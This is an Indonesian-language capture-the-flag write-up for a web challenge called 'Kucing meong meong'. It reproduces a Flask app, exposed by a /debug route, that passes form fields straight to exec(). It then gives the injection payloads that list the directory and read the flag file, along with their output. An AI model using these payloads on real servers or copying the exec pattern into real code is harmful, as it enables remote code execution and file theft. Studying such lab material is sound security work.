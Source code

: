 # Kucing meong meong (50 Points)
http://ctf.serangkota.go.id:9972/
# Solved
<h3>Notice! Write-up ini bersifat spoiler, jika kalian sudah lelah menemukan dimana letah celahnya disarankan membaca write-up. akan tetapi jika belum berusaha sama sekali diharapkan di coba-coba dulu :D</h3>
CTRL + U pada website
```php
<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body> 
	<img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
	
	<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>62</h1>
	
</body>
<!-- /debug -->
</html>
```
Kita menemukan angka acak dan ada salah satu komentar yaitu <b>/debug</b> yang mungkin menunjukkan untuk ke file debug mungkin :/, mari kita buka!<br>
Setelah kita akses kita mendapatkan source code dari website tersebut
```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garasi
	garasi = {}
	try: exec(recipe, garasi)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def organisasi(*args, **kwargs):
		bahan = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (bahan, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			bahan = request.form.get('bahan', '')
			recipe = '%s = %s' % (bahan, request.form.get('meteran', ''))

		calc(recipe)

		if garasi.get(bahan, ''):
			return render_template('index.html', calculations=garasi[bahan])

		return func(*args, **kwargs)
	return organisasi

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=5001)
```
Kita bisa lihat disini, ada code yang bernama <b>exec</b> yang mengijinkan kita untuk mengeksekusi script python kita sendiri melalui
```python
request.form.get('bahan','')
request.form.get('meteran', '')
```
Oke mari kita exploit!, ini adalah exploit yang saya gunakan untuk mendapatkan semua file yang berada di directory tersebut
```
bahan=a
meteran=[1]; import os; a.append([x for x in os.listdir("./")])
```
Hasil :
```html
<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body>
    <img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
    <h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>[1, [&#39;requirements.txt&#39;, &#39;templates&#39;, &#39;aplikasi.py&#39;, &#39;flag&#39;]]</h1>
</body>
<!-- /debug -->
</html>
```
Kita bisa lihat bahwasannya ada file yang bernama <b>flag</b>, mari kita coba baca file tersebut menggunakan script ini
```
[1]; f = open("flag", "r"); a.append(f.read())
```
Boom! Flag muncul :D :v<br>
Flag : <b>DiskoCTF{my_F1rst_flask_4pp}</b>
